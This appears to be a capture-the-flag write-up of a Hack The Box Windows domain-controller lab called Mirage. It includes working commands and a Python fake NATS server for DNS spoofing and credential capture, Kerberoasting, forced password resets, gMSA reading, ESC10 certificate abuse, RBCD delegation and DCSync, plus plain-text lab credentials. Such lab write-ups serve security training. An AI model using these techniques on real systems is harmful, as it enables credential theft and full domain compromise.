```
Scope:
10.10.11.78
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -vvvv -T5 --min-rate=5000 -Pn mirage.htb

PORT      STATE SERVICE         REASON  VERSION
53/tcp    open  domain          syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec    syn-ack Microsoft Windows Kerberos (server time: 2025-11-22 20:19:36Z)
111/tcp   open  rpcbind         syn-ack 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc           syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn     syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap            syn-ack Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Issuer: commonName=mirage-DC01-CA/domainComponent=mirage
445/tcp   open  microsoft-ds?   syn-ack
464/tcp   open  kpasswd5?       syn-ack
593/tcp   open  ncacn_http      syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap        syn-ack Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
2049/tcp  open  nlockmgr        syn-ack 1-4 (RPC #100021)
3268/tcp  open  ldap            syn-ack Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap        syn-ack Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
4222/tcp  open  vrml-multi-use? syn-ack
5985/tcp  open  http            syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf          syn-ack .NET Message Framing
47001/tcp open  http            syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc           syn-ack Microsoft Windows RPC
49665/tcp open  msrpc           syn-ack Microsoft Windows RPC
49666/tcp open  msrpc           syn-ack Microsoft Windows RPC
49667/tcp open  msrpc           syn-ack Microsoft Windows RPC
49668/tcp open  msrpc           syn-ack Microsoft Windows RPC
55614/tcp open  msrpc           syn-ack Microsoft Windows RPC
55623/tcp open  ncacn_http      syn-ack Microsoft Windows RPC over HTTP 1.0
55624/tcp open  msrpc           syn-ack Microsoft Windows RPC
55637/tcp open  msrpc           syn-ack Microsoft Windows RPC
55640/tcp open  msrpc           syn-ack Microsoft Windows RPC
55662/tcp open  msrpc           syn-ack Microsoft Windows RPC
55678/tcp open  msrpc           syn-ack Microsoft Windows RPC
62998/tcp open  msrpc           syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-22T20:20:34
|_  start_date: N/A
|_clock-skew: 2h34m18s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38031/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 16776/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 62882/udp): CLEAN (Timeout)
|   Check 4 (port 35574/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

I started off by mounting the `nfs` share.

## 2049/TCP - NFS



In both cases the `pdf` files were password restricted:


### qpdf - PDF conversion

We were unable to open it. Luckily for us there's a tool called `qpdf` that will be able to transform it:







A subdomain stands out:



```
nats-svc.mirage.htb
```

In the other report there is important info found about the domain abolishing NTLM as a log-in method. Instead they will from now on only use **Kerberos** authentication:



There is also an email found:



Nevertheless I add the found subdomain to my `/etc/hosts` list and try to query the subdomain using `dig`.



Interesting, there are actually no records found eventhough the `pdf` mentions this subdomain is **critical** for internal services.

## 53/TCP - DNS
### DNS Injection

We can use the `nsdupdate` tool to update the DNS records of the subdomain in order to spoof it as our own IP:



Then using the following script we will start a fake `nats` server on port `4222`. The host should try to connect to us since we've updated the DNS records by pointing the subdomain to our own IP.

```python
import socket
import threading

HOST = '0.0.0.0'
PORT = 4222

def handle_client(conn, addr):
    print(f"[+] Connection from {addr}")

    info = (
        'INFO {"server_id":"fake-server","version":"2.9.9","proto":1,'
        '"go":"go1.20.0","host":"fake-nats","port":4222,"max_payload":1048576}\r\n'
    )
    conn.send(info.encode())

    try:
        while True:
            data = conn.recv(4096)
            if not data:
                break
            print(f"[DATA] {addr} >>> {data.decode(errors='ignore')}")
    except Exception as e:
        print(f"[!] Error from {addr}: {e}")
    finally:
        conn.close()
        print(f"[-] Connection closed: {addr}")

def start_server():
    print(f"[*] Starting fake NATS server on {HOST}:{PORT}")
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.bind((HOST, PORT))
        s.listen()
        while True:
            conn, addr = s.accept()
            thread = threading.Thread(target=handle_client, args=(conn, addr))
            thread.start()

if __name__ == '__main__':
    start_server()
```

By running the above script we get a connection from the target:



We've acquired a set of credentials:

```
Dev_Account_A
hx5h7F5554fP@1337!
```

## 4222/TCP - Nats

We can now connect via the `nats` service with the found creds. This can be done by installing the `natscli` tool using `go`:



Next up we're going to be running 3 commands in the following order:

```bash
nats --context dev-nats sub ">" --count 10
```

Once we run the above in one terminal we'll want to run the next in another terminal:

```bash
nats --context dev-nats consumer add auth_logs audit-reader --pull --ack=explicit
```

Here we can just keep clicking enter until it is done.
Lastly we'll use the following command:

```bash
nats --context dev-nats consumer next auth_logs audit-reader --count=5 --wait=5s --ack
```

Combined it will look like this:







We see that the output from the last command gives us a set of credentials.

```
david.jjackson
pN8kQmn6b86!1234@
```

:::note
I connected to the NATS broker using the dev context, then created a consumer on the `auth_logs` stream so I could pull messages from it. After that, I fetched the next batch of log entries, and the broker handed me an authentication log containing a real username and password. By acknowledging the message, I told the server I had successfully received it.
:::

## nxc

Since NTLM logon doesn't work ( as confirmed per below ):



We will need to request a TGT.



Afterwards we can see that it works just fine using kerberos auth:



I quickly move on to enumerating users:



I then add these accounts to my usernames file in order to password spray later on.

## BloodHound

More importantly I moved on to `bloodhound` so I can graph everything out.



I boot up `bloodhound` and ingest the files:


At first glance there was nothing useful found at all.



However when we run the **All Kerberoastable Users** query it returns the following user:



This user turns out to be part of the **IT_ADMINS** group and even has remote management:



Let's *kerberoast* them.

# Exploitation
## kerberoasting 

```bash
impacket-GetUserSPNs mirage.htb/david.jjackson:'pN8kQmn6b86!1234@' -target-domain mirage.htb -dc-ip 10.10.11.78 -request -dc-host dc01.mirage.htb -k -save -debug
```



I then cracked the hash using `john`:



```
3edc#EDC3
```

I then requested a TGT using the creds:



In order to use this to ticket to log in I had to modify the `/etc/krb5.conf` file:





# Foothold
## Shell as nathan.aadam

I logged in as the user via `winrmexec`:



Here I was instantly able to grab the flag.

### user.txt



## Enumeration

Since `bloodhound` didn't yield anything further I started up `winpeas` to do some enumeration:



While scrolling down I found something interesting:



```
mark.bbond
1day@atime
```

I thus added the user to my "owned" list:


Now it became quite interesting:



## Lateral Movement
### ForceChangePassword 

First I got a TGT for *mark*:


First off we'll want to enable the account again:

```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -k remove uac "javier.mmarshall" -f ACCOUNTDISABLE 
```



Then used `bloodyAD` to change the password for *javier*:

```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -k set password "javier.mmarshall" "P@ssword123"
```



Next up we need to enable the account:

```
dn: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
changetype: modify
replace: logonHours
logonHours:: ////////////////////////////
```



We use `ldapmodify` to modify the entry:

```bash
ldapmodify -H ldap://dc01.mirage.htb -D "mark.bbond@mirage.htb" -w '1day@atime' -f javier_hours.ldif
```



Now that all's done we can get the TGT and export it:



### ReadgMSApassword

This one is pretty straightforward:

```bash
nxc ldap mirage.htb -u 'javier.mmarshall' -p 'P@ssword123' -k --gmsa
```



Next I yet again requested a TGT:



# Privilege Escalation
## ESC10
### Detection

Next up the following was discovered:

```powershell
reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel
```



As well as:

```powershell
Get-Item -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc"
```



When I checked those registry keys, I realized the domain controller has **StrongCertificateBindingEnforcement enabled (value = 1)**, but Schannel is still configured to allow *weak certificate mapping* through `CertificateMappingMethods = 0x4` (UPN mapping). 

This combination means the DC will accept non‑strong mappings for certificate-based logon, creating an **ESC10 ADCS vulnerability**. In other words, if I can obtain or forge a certificate with a victim’s UPN, the DC will still let me authenticate as that user despite strong binding being “enabled.”

### Exploitation

I'll start off with `certipy-ad` by updating the account of *mark.bbond*:

```bash
certipy-ad account update -k -no-pass -user mark.bbond -upn 'DC01$@mirage.htb' -dc-host dc01.mirage.htb -target dc01.mirage.htb
```



Next up I'll export the cache for *mark* again and request the certificate:

```bash
certipy-ad req -ca 'mirage-DC01-CA' -dc-host dc01.mirage.htb -target dc01.mirage.htb -k -no-pass
```



Next up:

```bash
certipy-ad account update -k -no-pass -user mark.bbond -upn 'mark.bbond@mirage.htb' -dc-host dc01.mirage.htb -target dc01.mirage.htb
```



Now we're going to authenticate and get an interactive shell:

```bash
certipy-ad auth -pfx dc01.pfx -dc-ip 10.10.11.78 -ldap-shell
```



## S4U2Proxy 

While in the interactive shell I used the following command to modify the delegation rights.

```bash
set_rbcd dc01$ nathan.aadam
```



We can then request a service ticket:

```bash
impacket-getST -u2u -impersonate "dc01$" -spn "cifs/dc01.mirage.htb" -k -no-pass 'mirage.htb/nathan.aadam'
```



### dcsync

From here we can `dcsync` and get access as *Administrator*.







#### root.txt





---